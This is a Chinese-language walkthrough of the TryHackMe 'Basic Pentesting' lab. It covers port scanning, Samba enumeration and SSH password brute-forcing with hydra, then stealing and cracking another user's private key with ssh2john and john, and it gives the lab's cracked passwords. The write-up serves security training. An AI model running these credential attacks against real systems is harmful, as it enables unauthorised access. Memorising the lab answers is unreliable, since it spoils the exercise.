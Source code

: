 ```yaml
---
description: 本文相关内容：针对目标机器，练习攻击Web应用程序以及进行权限提升。
---
```


# Basic Pentesting-练习

TryHackMe实验房间链接：https://tryhackme.com/room/basicpentestingjt



## Web应用程序测试和提权(横向)练习

难度：easy

机器地址：

目标机ip：10.10.144.213

攻击机ip（OPENVPN连接时，为tun0地址）：10.14.30.69

**相关知识点：**

* 目录爆破
* hash解密
* 服务信息枚举
* Linux信息枚举

**操作：**

使用nmap进行端口扫描：

```shell
nmap -sV -sC -T4 10.10.144.213
#可以使用-oN 将nmap扫描的结果输出为具有普通格式的文本
```

![image-20221012172252559](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012172252559.png)

使用 dirsearch/dirbuster 查找Web 服务器的隐藏目录：

![image-20221012173810085](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012173810085.png)

获取目标机用户名：

_方法一：_

```shell
enum4linux  10.10.144.213 
```

![image-20221012181056091](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012181056091.png)

_方法二：_

```shell
#由之前的nmap扫描结果可知：目标机运行了Samba服务
#我们尝试使用匿名登录Samba
smbclient //10.10.144.213/anonymous 
#发现员工信息，成功获取目标机用户名
```

![image-20221012192545313](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012192545313.png)

获取用户用于ssh连接的密码：

```
hydra -l jan -P rockyou.txt ssh://10.10.144.213 
```

![image-20221012180924886](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012180924886.png)

使用ssh登陆目标机的用户账号查看敏感文件

```shell
ssh jan@10.10.144.213 -oHostKeyAlgorithms=+ssh-rsa 
#输入密码：armando
```

![image-20221012194722862](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012194722862.png)

发现其他用户的hash密钥--id\_rsa，将该密钥内容复制到攻击机上的idrsa.id\_rsa 中，先对idrsa.id\_rsa 进行加权操作，再尝试使用idrsa.id\_rsa通过ssh登录另一目标机用户，发现需要密码口令，在攻击机上使用john对idrsa.id\_rsa进行hash破解：

```shell
chmod 600 idrsa.id_rsa 
# ssh -i idrsa.id_rsa kay@10.10.144.213 -oHostKeyAlgorithms=+ssh-rsa 执行失败 提示输入密码口令
#提取密钥hash值
ssh2john idrsa.id_rsa > id_rsa_hash.txt
#破解hash值
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt
```

![image-20221012195049211](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012195049211.png)

使用密码口令和idrsa.id\_rsa 通过ssh登陆目标机的另一用户账号，并查看敏感文件信息：

```shell
ssh -i idrsa.id_rsa kay@10.10.144.213 -oHostKeyAlgorithms=+ssh-rsa
#输入密码口令 beeswax
```

![image-20221012200551375](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012200551375.png)

**答题卡**

![image-20221012201210559](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012201210559.png)
